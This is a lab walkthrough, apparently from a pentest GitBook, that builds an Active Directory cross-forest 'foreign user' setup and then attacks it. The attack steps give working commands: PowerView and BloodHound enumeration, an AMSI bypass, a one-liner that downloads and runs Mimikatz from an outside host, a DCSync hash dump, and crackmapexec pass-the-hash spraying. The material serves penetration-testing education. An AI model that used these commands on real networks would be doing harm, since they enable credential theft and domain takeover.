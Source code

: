 # Foreign user

## Configuring

1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../.gitbook/assets/image (17).png>)

3\. Open the "Users" directory and right click it, then select "New" and then "Users".

4\. Create a new user with the name `secure_admin` and the password `rFKbUJrDu$sz*36ffKr6`.

![](<../../.gitbook/assets/image (22).png>)

5\. Make sure "Password never expires" is checked and "User must change password at next logon" is unchecked when creating the user.

6\. to `DC03` with the `Administrator` user and the password `Welcome01!`.

7\. Open the "Active Directory Users and Computers" administration tool.

8\. Open the "Users" directory and right click it, then select "New" and then "Group".

9\. Make a new group with the name `Local admin data` and select group scope "Domain Local".

![](<../../.gitbook/assets/image (77) (1) (1).png>)

10\. Right click the group and select "Properties". Click on the "Members" tab and click on "Add"

11\. Click on "Locations" and select bank.local.

![](<../../.gitbook/assets/image (59).png>)

12\. Enter the username secure\_admin and click "Check Names" and then click "OK".

![](<../../.gitbook/assets/image (65).png>)

13\. Click "Apply" and then "OK".

14\. To make the group local admin to the `DATA01` server there are two options

* Login to the machine and use the net command to add the group to the local administrators group.
* Deploy a GPO to make the group local admin on the machine.

15\. We will go with the first step since its just easier for the lab setup, but normally IT would deploy it with GPO. So login with the username Administrator and password Welcome01! to DATA01 and execute the following command:

```
net localgroup administrators "local admin data" /add
```

![](<../../.gitbook/assets/image (64).png>)

## Attacking

### How it works

If there is a trust between two forests, it is possible to add a user of domain A to a group in domain B. If for example this group gives local admin privileges to a system in forest B then after taking over that user it is possible to gain access to domain B using that account. Depending on the trust flow configured between the domains(one way or two way trust), they can both add other users or only one domain can add users.

Meaning that if you take over domain A you can easily access domain B by enumerating the groups which have a foreign user from domain A. I see this often used for having one admin account to manage both domains for example.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

This attack is executing from the perspective of already gaining Enterprise Admin privileges within the `bank.local` admin.

1. To easily execute the attack login on `DC01` with the user `Administrator` and the password `Welcome01!`.
2. Start PowerShell and load an amsi and PowerView into memory:

![](<../../.gitbook/assets/image (57).png>)

3\. With the PowerView cmdlet `Get-DomainForeigGroupMember` we can query the target domain for users in groups that aren't from their domain.

```
Get-DomainForeignGroupMember -Domain secure.local
```

![](<../../.gitbook/assets/image (44).png>)

4\. The output shows us that there is a foreign user in the `Local admin data` group and that the member is `S-1-5-21-320929719-844265543-1524670925-1602`.  To get the user name we can use the `ConvertFrom-SID` cmdlet from PowerView:

```
ConvertFrom-SID S-1-5-21-320929719-844265543-1524670925-1602
```

![](<../../.gitbook/assets/image (78).png>)

5\. The user `bank\secure_admin` from `bank.local` is member of `local admin data` in `secure.local`. We can also see this in bloodhound after collecting the data for both domains and loading it into the BloodHound GUI.

```
Invoke-BloodHound -Collectionmethod all -Domain secure.local
Invoke-BloodHound -Collectionmethod all -Domain bank.local
```

After clicking on "Users with Foreign Domain Group Membership" and selecting `Secure.local` under the "Dangerous Rights" section in the "Analysis" tab we see:

![](<../../.gitbook/assets/image (75).png>)

6\. Since we are already domain admin we could simply reset the password for the `secure_admin` user. But this isn't OPSEC safe, so we can execute a dcsync to grab its NTLM hash and then use it to spray against the other domain computers to check if the user has access to any machine. To execute the DCSync load MimiKatz into memory and use the following command:

```
iex (iwr http://192.168.248.2:8090/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:bank\secure_admin /domain:bank.local"'
```

![](<../../.gitbook/assets/image (16).png>)

7\. The next step would be to spray this hash against all systems of the secure.local domain. But its just easier to spray it against the whole subnet with crackmapexec. To do this we use the following command:

```
cme smb 10.0.0.0/24 -u secure_admin -H a0f6b4d3c6a9da1204520ccd72e54597 -d bank.local
```

![](<../../.gitbook/assets/image (39).png>)

8\. The user `secure_admin` from `bank.local` is local admin to the `DATA01` machine from `secure.local`.

## Defending

### Recommendations

I would recommend to not add users from other domains in privileged groups if you don't FULLY trust the other domain to be secure. But this is a risk based decision to make.

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}
